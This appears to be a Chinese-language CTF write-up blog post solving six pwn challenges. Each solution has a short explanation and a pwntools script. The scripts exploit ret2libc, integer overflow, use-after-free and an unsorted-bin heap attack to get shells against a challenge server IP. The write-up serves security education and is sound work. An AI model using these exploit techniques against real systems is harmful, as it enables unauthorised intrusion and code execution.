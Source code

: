 ```yaml
---
title: CUMT PWN专项
date: 2021-11-25 23:24:22
tags: [CTF,Pwn,Python]
categories: 
 - [CyberSecurity,CTF]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682435935/Typera/2023/04/54a2923a541fe0c86555a91b264f4221.png
---
```


## pwn1

 都说了是测试nc了，连上就直接可以拿到flag

## pwn2
 给我们个password，你再传回去就完了
 关键是要仔细读题，看仔细到底哪些是password
```python
from pwn import *
r=remote("219.219.61.234",6666 )
print(r.recvuntil(b'*\n').decode())
p=r.recvuntil(b'\n')[:-1]
print(bytes(p))
r.sendline(bytes(p))
r.interactive()
```
## pwn3
ret2libc
泄露libc中puts函数的地址
传入puts_got，得到puts的运行时的地址，
用libc.symbols[“system”] - libc.symbols[“puts”]得到system和puts的距离，
加上之前接收的puts运行时的地址，得到system运行的地址，
然后直接用elf.search('sh\x00').__next__()找到sh的地址
没开canary，
0x38,所以payload填60个a,然后传system地址+sh地址，就可以getshell了
```python 
from pwn import *

#r = process(b'./pwn3')
r=remote('219.219.61.234',10003)
elf = ELF(b'./pwn3')
libc = ELF(b'./libc.so.6')

print(r.recv().decode())
puts_got = elf.got['puts']
print(puts_got)

r.send(str(puts_got).encode())
r.recvuntil(b' : ')
puts_addr = int(r.recvuntil(b'\n')[:-1],16)
print(puts_addr)

system_addr = puts_addr + libc.symbols["system"] - libc.symbols["puts"]
print(system_addr)

p = b'a'*60 + p32(system_addr) + p32(0xdeadbeef) + p32(elf.search(b'sh\x00').__next__())
r.recvuntil(b' :')
r.sendline(p)

r.interactive()
```
## pwn4
没开canary，但是前两个地方不能栈溢出，
![image-20230425232110426](https://res.cloudinary.com/sycamore/image/upload/v1682436075/Typera/2023/04/dc2c87519810519185f4e3c91622b01d.png)
而又观察到v3刚好是个unsigned int8型的变量，可以利用整数溢出的漏洞，
它的最大值位255，所以只要保证一共填了255+4 ~ +8之间的个数就行

```python
from pwn import *

#r = process('./pwn4')
r = remote("219.219.61.234",10004 )

backdoor=0x0804868B
p = b'a'*0x18 + p32(backdoor) + b'a'*(259-0x18-4)

r.recvuntil(b'choice:')
r.sendline(b'1')
r.recvuntil(b'username:')
r.sendline(b'123')
r.recvuntil(b'passwd:')
r.sendline(p)

r.interactive()
```
## pwn5
Use After Free漏洞
指针free之后没有置空，下次在访问该指针时能访问到原指针所指向的堆内容
添加两个note之后，依次释放。再创建大小为8的note时，内容部分对应被分配到第一个note里面，而它的指针没有置空，
所以如果我们在新的note里面放后门函数的地址的话，print新note的内容的时候，就会执行这个后门函数
```python
from pwn import *

#r = process(b'./pwn5')
r=remote('219.219.61.234',10000)

backdoor=0x08048986

def add(size,content):
    r.recvuntil(b':')
    r.sendline(b'1')
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.send(content)

def delete(idx):
    r.recvuntil(b':')
    r.sendline(b'2')
    r.recvuntil(b':')
    r.sendline(str(idx))    

def Print(idx):
    r.recvuntil(b':')
    r.sendline(b'3')
    r.recvuntil(b':')
    r.sendline(str(idx))

add(32,'aaaa')
add(32,'aaaa')
delete(0)
delete(1)
add(8,p32(backdoor))
Print(0)

r.interactive()
```

## pwn6
堆溢出漏洞 + unsorted bin attack
只要控制v3=4869，同时控制qword_6020C0大于0x1305，就可以了
![image-20230425232125920](https://res.cloudinary.com/sycamore/image/upload/v1682436089/Typera/2023/04/d1aaf56f4760a578927720faa790c02a.png)
观察到v3=2对应的函数里面有堆溢出漏洞，所以可以利用堆溢出漏洞修改堆块的bk指针为qword_6020C0的地址-16

```python
from pwn import *

#r = process('./pwn6')
r = remote("219.219.61.234",10001 )
elf=ELF(B'./pwn6')

def create(size,content):
    r.recvuntil(b':')
    r.sendline(b'1')
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.sendline(content)

def edit(idx,size,content):
    r.recvuntil(b':')
    r.sendline(b'2')
    r.recvuntil(b':')
    r.sendline(str(idx))
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.sendline(content)

def delete(idx):
    r.recvuntil(b':')
    r.sendline(b'3')
    r.recvuntil(b':')
    r.sendline(str(idx))

create(0x20,'aaaa')
create(0x80,'bbbb')
create(0x20,'cccc')

delete(1)

magic = 0x6020C0
fd = 0
bk = magic -0x10

edit(0,0x40,b'a' * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk)) 

create(0x80,b'aaaa')
r.recvuntil(b':')
r.sendline(b'4869')

r.interactive()
```
